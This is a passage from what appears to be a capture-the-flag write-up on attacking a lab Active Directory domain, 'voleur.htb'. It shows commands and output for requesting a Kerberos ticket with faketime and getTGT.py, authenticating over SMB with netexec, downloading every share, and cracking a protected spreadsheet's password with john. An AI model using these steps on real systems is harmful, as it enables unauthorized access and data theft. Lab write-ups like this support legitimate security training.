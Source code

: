 This tells us that this authentication method is not supported by the domain controller and we must use kerberos instead. To get a valid ticket we can use imapcket's getTGT.py. Note that I am already using faketime with a clock skew of 8 hours. If you are wondering how I know it is 8 hours, it is because I ran a command (I forgot which one) and it told me exactly the clock skew to the server. I also export the ticket so it is in our cache and we can view it with klist.
#### Requesting a Valid Ticket
```
faketime -f "+8h" getTGT.py -dc-ip 10.10.11.76 voleur.htb/ryan.naylor:HollowOct31Nyt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ryan.naylor.ccache

export KRB5CCNAME=ryan.naylor.ccache
```
```
klist
Ticket cache: FILE:ryan.naylor.ccache
Default principal: ryan.naylor@VOLEUR.HTB

Valid starting     Expires            Service principal
12-07-25 14:31:53  13-07-25 00:31:53  krbtgt/VOLEUR.HTB@VOLEUR.HTB
	renew until 13-07-25 14:31:52
```

After exporting the ticket we can now authenticate as ryan with netexec with the following command, note the importance of using the hostname `dc.voleur.htb` and the use of the `--use-kcache` flag to tell netexec to use the kerberos ticket we exported earlier.
```
faketime -f "+8h" netexec smb dc.voleur.htb -u ryan.naylor -k --use-kcache
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor from ccache
```

To enumerate the shares this user has access to I am currently preferring the spider module netexec provides to download all the share folders locally. I do this as I find it easier to manage the files on my own machine and in the case we get other user's credentials I can more easily view if there are any extra shares or files that the original user did not have access to.

```
faketime -f "+8h" netexec smb dc.voleur.htb -u ryan.naylor -k --use-kcache --shares -M spider_plus -o DOWNLOAD_FLAG=True
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor from ccache
```
## Cracking the Password Protected Spreadsheet
Inside the IT share we find a password protected excel file. To get the hash we can use john's `office2john.py`. After getting the hash we can crack it using john again with the rockyou.txt wordlist. 
```sh
./office2john.py Access_Review.xlsx > file.hash

john file.hash --wordlist=/usr/share/wordlists/rockyou.txt 
<SNIP>
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
football1        (Access_Review.xlsx)     
1g 0:00:00:06 DONE (2025-07-12 06:48) 0.1621g/s 126.4p/s 126.4c/s 126.4C/s football1..armando
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
